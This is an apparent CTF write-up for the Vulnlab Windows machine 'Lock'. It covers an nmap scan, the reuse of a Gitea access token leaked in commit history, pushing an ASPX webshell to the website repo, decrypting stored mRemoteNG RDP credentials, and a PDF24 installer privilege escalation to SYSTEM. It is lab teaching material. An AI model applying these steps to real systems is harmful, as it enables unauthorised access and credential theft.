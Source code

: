 ```yaml
---
title: Lock Vulnhab (English)
image: /assets/img/Anexos/Máquina%20Lock.png
description: Down Vulnhab [Difuculty easy]
categories: [CTF,Vulnhab]
tags: [hacking,easy]
---
```




## Introduction
N/A
### Machine Description


- Name: Lock
- Goal: Get two flags
- Difficulty: easy
- Operating System: Windows
- link: [Lock](https://wiki.vulnlab.com/guidance/easy/lock)

  

### PDF Link
- PDF: [Link to PDF](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/Vulnlab/M%C3%A1quina%20Lock.pdf)




## Reconnaissance


```shell
 sudo nmap -sSCV --min-rate 5000 -p- --open -n -Pn 10.10.121.141 -oN scan1.txt
[sudo] password for belin: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-24 21:49 CEST
Nmap scan report for 10.10.121.141
Host is up (0.051s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Lock - Index
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Lock
| Not valid before: 2025-07-23T19:45:35
|_Not valid after:  2026-01-22T19:45:35
| rdp-ntlm-info: 
|   Target_Name: LOCK
|   NetBIOS_Domain_Name: LOCK
|   NetBIOS_Computer_Name: LOCK
|   DNS_Domain_Name: Lock
|   DNS_Computer_Name: Lock
|   Product_Version: 10.0.20348
|_  System_Time: 2025-07-24T19:50:12+00:00
|_ssl-date: 2025-07-24T19:50:53+00:00; 0s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-24T19:50:15
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.39 seconds
```
after the initial scan using `nmap`, we got that ports. 


> [!Info] 
> I should have done the scan again since it didn't report the port 3000 which is supposed to appear according to https://wiki.vulnlab.com/guidance/easy/lock xd. 

There's nothing interesting in the website, we can only notice that it seems to be a production software, that's why **gitea** may be important here. 


![](/assets/img/Anexos/Máquina%20Lock-10.png)

In gitea we can see one users who has a script in python which check the token and print the repos that the user has. So here we can check the commit history and it appears that someone forgot to delete their token:

![](/assets/img/Anexos/Máquina%20Lock-11.png)



What we can do now is use the actual script in order to get possible hidden repos with that token and we can see there's a hidden/private repo called website which is probably the website open on the port 80

```shell
❯ export GITEA_ACCESS_TOKEN=43ce39bb0bd6bc489284f2905f033ca467a6362f

❯ python test.py http://10.10.113.16:3000
Repositories:
- ellen.freeman/dev-scripts
- ellen.freeman/website
```

Knowing this we can now clone that repo:
```shell
 git clone http://ellen.freeman:43ce39bb0bd6bc489284f2905f033ca467a6362f@10.10.98.131:3000/ellen.freeman/website
```

## Explotation

Now I copy a apsx shell in the website repository
```shell
/usr/share/webshells/aspx/aspxshell.aspx
```

Then I commit and push the changes to the repo
```shell
git add .
git commit -m "pwn"
git push -u origin 
```

Finally, if we go to the page and we request for _/aspxshell.aspx_ we get the shell we previously upload. 
![](/assets/img/Anexos/Máquina%20Lock-12.png)
Now we can simply get a shell to our attack machine using https://www.revshells.com/ as the easiest way I use to use. 
## Privilege escaltion
Once in, in the Documents directory, we can see a config file for the mremoteng software installed which manage, among others, RDP connections, in this case, for the user _Gale.Dekarios_ in the target machine, so as it contains a protected variable, which is probably the key used to encrypt the pass, we search for a script in github or somewhere else in order to decrypt the password. 

```powershell
PS C:\users\ellen.freeman\Documents> type *
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="sDkrKn0JrG4oAL4GW8BctmMNAJfcdu/ahPSQn3W5DPC3vPRiNwfo7OH11trVPbhwpy+1FnqfcPQZ3olLRy+DhDFp" ConfVersion="2.6">
    <Node Name="RDP/Gale" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="a179606a-a854-48a6-9baa-491d8eb3bddc" Username="Gale.Dekarios" Domain="" Password="TYkZkvR2YmVlm2T2jBYTEhPU2VafgW1d9NSdDX+hUYwBePQ/2qKx+57IeOROXhJxA7CczQzr1nRm89JulQDWPw==" Hostname="Lock" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" DisplayThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" CacheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality="Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacAddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0" VNCProxyUsername="" VNCProxyPassword="" VNCColors="ColNormal" VNCSmartSizeMode="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostname="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="false" InheritColors="false" InheritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="false" InheritEnableFontSmoothing="false" InheritEnableDesktopComposition="false" InheritDomain="false" InheritIcon="false" InheritPanel="false" InheritPassword="false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" InheritRedirectDiskDrives="false" InheritRedirectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" InheritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConsoleSession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionStrength="false" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout="false" InheritLoadBalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" InheritUserField="false" InheritExtApp="false" InheritVNCCompression="false" InheritVNCEncoding="false" InheritVNCAuthMode="false" InheritVNCProxyType="false" InheritVNCProxyIP="false" InheritVNCProxyPort="false" InheritVNCProxyUsername="false" InheritVNCProxyPassword="false" InheritVNCColors="false" InheritVNCSmartSizeMode="false" InheritVNCViewOnly="false" InheritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false" InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />
</mrng:Connections>
```

In this case I used this one https://github.com/gquere/mRemoteNG_password_decrypt 


```shell
❯ python3 mremoteng_decrypt.py ../content/config.xml
Name: RDP/Gale
Hostname: Lock
Username: Gale.Dekarios
Password: ty8wnW9qCKDosXo6
```

We got it! 

```shell
 xfreerdp /v:10.10.113.16 /u:gale.dekarios /p:ty8wnW9qCKDosXo6 /dynamic-resolution
```



Once in, we can realise that this machine uses thre PDF24 software, we can check the versión openning it in the settings field: 

![](/assets/img/Anexos/Máquina%20Lock-1.png)

I searched for the versión and it's vulnerable for privilage escalation, I use this poc => https://sec-consult.com/vulnerability-lab/advisory/local-privilege-escalation-via-msi-installer-in-pdf24-creator-geek-software-gmbh/

So basically I share `SetOpLock.exe` from https://github.com/googleprojectzero/symboliclink-testing-tools from my attack machine to the target machine

![](/assets/img/Anexos/Máquina%20Lock-2.png)

The vulnerability consist in executing the pdf24 msi installer which will open a invisible cmd as **SYSTEM** when it tries to write a log file. As we now the archive log it will write, we can use `SetOpLock.exe` in order to stop the invisible cmd executed by SYSTEM and get a shell as SYSTEM:

![](/assets/img/Anexos/Máquina%20Lock-3.png)

Once we get the invisible cmd locked thank to `SetOpLock.exe`, we go to propierties in order to get a help link and open the browser we want automatically as SYTEM 

![](/assets/img/Anexos/Máquina%20Lock-4.png)

![](/assets/img/Anexos/Máquina%20Lock-5.png)

Here `ctrl+o` to open the file explorer
![](/assets/img/Anexos/Máquina%20Lock-6.png)

We confirm that we have the privilages we wanted, 

![](/assets/img/Anexos/Máquina%20Lock-7.png)
then cmd here and we got the shell as SYSTEM!

![](/assets/img/Anexos/Máquina%20Lock-8.png)

![](/assets/img/Anexos/Máquina%20Lock-9.png)
